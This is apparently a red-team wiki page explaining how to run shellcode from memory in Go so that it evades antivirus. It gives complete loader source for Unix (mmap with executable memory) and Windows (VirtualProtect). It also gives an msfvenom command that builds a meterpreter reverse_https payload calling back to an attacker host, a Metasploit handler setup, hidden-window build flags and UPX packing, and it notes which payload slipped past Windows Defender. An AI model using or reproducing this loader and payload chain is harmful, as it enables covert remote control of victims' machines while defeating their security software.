 # Load shellcode from memory using Golang

This is a program to run shellcode as its own process, all from memory written to defeat anti-virus detection.

Original code by [brimstone](https://github.com/brimstone/go-shellcode) mofified by [JUMPSEC](https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/):

{% tabs %}
{% tab title="main.go" %}
```go
package main

import (
	"encoding/hex"
	"fmt"
	"os"

	shellcode "github.com/brimstone/go-shellcode"
)

func main() {

	sc :="SHELLCODE-GOES-HERE"
	sc_bin, err := hex.DecodeString(sc)
	if err != nil {
		fmt.Printf("Error decoding arg 1: %s\n", err)
		os.Exit(1)
	}

	shellcode.Run(sc_bin)
}
```
{% endtab %}

{% tab title="shellcode\_unix.go" %}
```go
// +build linux freebsd darwin

package shellcode

/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
void call(char *shellcode, size_t length) {
	if(fork()) {
		return;
	}
	unsigned char *ptr;
	ptr = (unsigned char *) mmap(0, length, \
		PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if(ptr == MAP_FAILED) {
		perror("mmap");
		return;
	}
	memcpy(ptr, shellcode, length);
	( *(void(*) ()) ptr)();
}
*/
import "C"
import (
	"unsafe"
)

func Run(sc []byte) {
	C.call((*C.char)(unsafe.Pointer(&sc[0])), (C.size_t)(len(sc)))
}
```
{% endtab %}

{% tab title="shellcode\_windows.go" %}
```go
package shellcode

import (
	"syscall"
	"unsafe"
)

var procVirtualProtect = syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualProtect")

func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
	ret, _, _ := procVirtualProtect.Call(
		uintptr(lpAddress),
		uintptr(dwSize),
		uintptr(flNewProtect),
		uintptr(lpflOldProtect))
	return ret > 0
}

func Run(sc []byte) {
	// TODO need a Go safe fork
	// Make a function ptr
	f := func() {}

	// Change permissions on f function ptr
	var oldfperms uint32
	if !VirtualProtect(unsafe.Pointer(*(**uintptr)(unsafe.Pointer(&f))), unsafe.Sizeof(uintptr(0)), uint32(0x40), unsafe.Pointer(&oldfperms)) {
		panic("Call to VirtualProtect failed!")
	}

	// Override function ptr
	**(**uintptr)(unsafe.Pointer(&f)) = *(*uintptr)(unsafe.Pointer(&sc))

	// Change permissions on shellcode string data
	var oldshellcodeperms uint32
	if !VirtualProtect(unsafe.Pointer(*(*uintptr)(unsafe.Pointer(&sc))), uintptr(len(sc)), uint32(0x40), unsafe.Pointer(&oldshellcodeperms)) {
		panic("Call to VirtualProtect failed!")
	}

	// Call the function ptr it
	f()
}

```
{% endtab %}
{% endtabs %}

The binary can be built using this command:

```text
GOOS=windows \
GOARCH=amd64 \
go build -ldflags="-s -w -H=windowsgui" \
cmd/sc/main.go
```

To generate the shellcode you can use this command:

```text
msfvenom -p windows/x64/meterpreter/reverse_https \
LHOST=xxx \
LPORT=xxx \
-b \x00 \
-f hex
```

{% hint style="info" %}
At the time of writing the `windows/x64/meterpreter/reverse_tcp` payload was flagged by windows defender when executing \(behavior analysis\) but not the `windows/x64/meterpreter/reverse_https`
{% endhint %}

Starting the handler:

```text
msfconsole -x "use exploit/multi/handler;\
set PAYLOAD windows/x64/meterpreter/reverse_https;\
set LHOST localhost;\
set LPORT 8443;\
run -j"
```

Packing the binary using UPX might help with Antivirus detection:

```text
brew install upx
upx main.exe --brute
```

### References

{% embed url="https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/" %}

{% embed url="https://github.com/brimstone/go-shellcode" %}



